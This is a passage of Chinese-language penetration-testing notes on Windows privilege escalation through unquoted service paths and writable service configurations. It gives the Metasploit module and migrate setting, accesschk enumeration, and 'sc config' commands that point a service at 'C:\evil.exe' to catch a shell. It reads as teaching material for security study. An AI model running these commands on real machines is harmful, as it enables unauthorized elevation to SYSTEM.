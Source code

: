 ![](images/6.jpg)

例如，此路径即是一个存在漏洞的配置：

```C:\Program Files\Lenovo\Fingerprint Manager Pro\OmniServ.exe```


windows命令解释程序可能遇到名称中的空格，它将尝试以下方式运行可执行文件(实际利用还需要对攻击路径具有写权限，用于上传可执行文件)：

	C:\Program.exe
	C:\Program Files\Lenovo\Fingerprint.exe
	C:\Program Files\Lenovo\Fingerprint Manager.exe
	C:\Program Files\Lenovo\Fingerprint Manager Pro\OmniServ.exe

MSF

	exploit/windows/local/unquoted_service_path

正常接收到会话后，不就就会自动断开连接，需要开启命令自动迁移进程：

	set AutoRunScript migrate -f

[Windows错误系统配置提权之Trusted Service Paths (可信任服务路径) 漏洞 (一)](https://blog.csdn.net/qq_44159028/article/details/123462876)

8.不安全服务权限配合计划任务schtasks或SC命令利用

如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以覆盖原来的服务路径，启动恶意程序。(一般用来administrator提权到system，因为普通用户用sc修改服务路径会没有权限，导致不能用该方法提权。)

[AccessChk](https://docs.microsoft.com/zh-cn/sysinternals/downloads/accesschk)

检查 administrators组具有哪些服务的权限：

	accesschk.exe -uwcqv "administrators" *  

修改目标服务的路径：

	sc config "target服务名" binpath= "C:\evil.exe"
	sc start target服务名    # 在msf监听，启动该服务，可以接收到我们的shell


```